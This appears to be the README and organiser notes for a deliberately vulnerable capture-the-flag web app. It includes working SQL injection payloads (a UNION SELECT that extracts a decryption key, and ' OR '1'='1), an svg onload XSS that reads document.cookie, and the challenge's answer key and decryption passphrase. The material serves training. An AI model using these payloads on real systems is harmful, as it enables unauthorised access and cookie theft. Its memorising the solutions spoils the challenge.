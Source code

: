 # CTF_-webapp-

# CTF Web App (SQLi & XSS Challenges)

A vulnerable web application designed for Capture The Flag (CTF) practice, featuring SQL Injection and Cross-Site Scripting (XSS) challenges.

The website is hosted on Render at this link: https://ctf-webapp.onrender.com/

## Overview
- **SQL Injection Challenge**: Bypass login to retrieve a hidden flag. Both key, hash and video will be returned if SQL injection is done correctly.
- **XSS Challenge**: XSS is only a confusion to the participants.


## Challenges & Flags
### 1. SQL Injection
#### when doing it properly as a hacker
1. enter username as admin
2. enter password as ' UNION SELECT (SELECT decryption_key FROM keys_table LIMIT 1), NULL, NULL, NULL -- 
3. it will return you with the decrypytion Key, the location of the video, and the flag.

#### how do they know the number of fields? BY TRYING, because the prompt will tell them. 
1. If they did less than the fields, e.g.,
' UNION SELECT (SELECT decryption_key FROM keys_table LIMIT 1), NULL, NULL --

It will return " Error: SELECTs to the left and right of UNION do not have the same number of result columns", prompting them to reduce or increase the number of fields. 

#### if you did it without knowing username/pwd
1. enter wrong username or wrong password, it will tell you "ACCESS DENIED: Insufficient clearance."

#### if you did it with knowing username/pwd, incorrectly or with the most basic sql injection 
1. enter username as admin, or ' OR '1'='1
2. enter password as password123, ' OR '1'='1
3. it will return you a wrong flag, it will display: Flag: admin | Access /get_video?id=1 
(!!You get the place of the video, but clearly the flag is still incorrect since you cannot use it to decrypt the video.)



#### File Setup Instructions
* Encrypt the Video:

openssl aes-256-cbc -e -in secret_video.mp4 -out secret_video.enc -k "OMNI_AI_VIDEO_KEY_619"

* Place secret_video.enc in your project folder.

* Update init_db() to insert the encrypted video (code provided above).



### 2. XSS (Cross-Site Scripting) HONEYPOT-LIKE FUNCTION
- **Objective**: Steal the cookie containing the flag.
- **Exploit**: 
  - Submit `<svg/onload="alert(document.cookie)">` as a comment.
  - **MESSAGE**: `Gotchu - message that guide them to look into database` 

## Security Notes
- 🔒 **Isolation**: Run this app in a VM/Docker container or disposable environment.
- ♻️ **Reset Database**: Delete `ctf.db` and restart the app to clear data:
  ```bash
  rm ctf.db && python3 app.py
  ```
- 🚫 **Never expose this app to the public internet**.
```


----------------------------------------------------------------------------------------------------------------

# CTF Walkthrough

1. Perform SQL Injection

- Extract the encryption key from keys_table.
- Extract the video ID (1) from videos table.
2. Retrieve the Encrypted Video

- Access /get_video?id=1 and download secret_video.enc.
3. Decrypt the Video Using OpenSSL

- openssl aes-256-cbc -d -in secret_video.enc -out secret_video.mp4 -k "OMNI_AI_VIDEO_KEY_619" 

[NOTE: this key "OMNI_AI_VIDEO_KEY_619" can be replaced with hash]

4. Watch the Decrypted Video (secret_video.mp4, ie, flag 4)

5. Open secret_video.mp4 and find the next hint.


# WHAT DO WE NEED TO GIVE THEM HINT -- can be included in the brief
1. tell them some basic information to get them started: username is admin, password is password123, and there are four tables in the web app, their names are users, keys_table, videos, and comments. The users table structure is 
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT UNIQUE,
    password TEXT,
    flag TEXT
)
2. In hints, we can tell them what encryption the video is encrypted in  -- aes-256-cbc

# Things for ourselves in submission
1. See the CTF Walkthrough above. Both key and hash are included. 
2. XSS is only a confusion to the participants.



TODO Update:
#### DONE experiment with video encrypt, then serve it on webapp
#### DONE Hosting on Render
#### DONE need to see what exactly is the decryption key
#### next flag--   XSS
#### DONE frontend of sql  (when i have time i can put in a little jif on sql space, update the time part)
#### DONE put the hash below the SQL return line.
#### DONE make the time longer 



--------------
Final CTF Flow
SQLi Challenge:

Extract decryption key from keys_table.

Use key to decrypt video for the final flag.

XSS Challenge:

Bypass <script> filtering to steal the cookie. For example, submit <svg/onload="alert(document.cookie)">

Both challenges are independent (no dependency between them).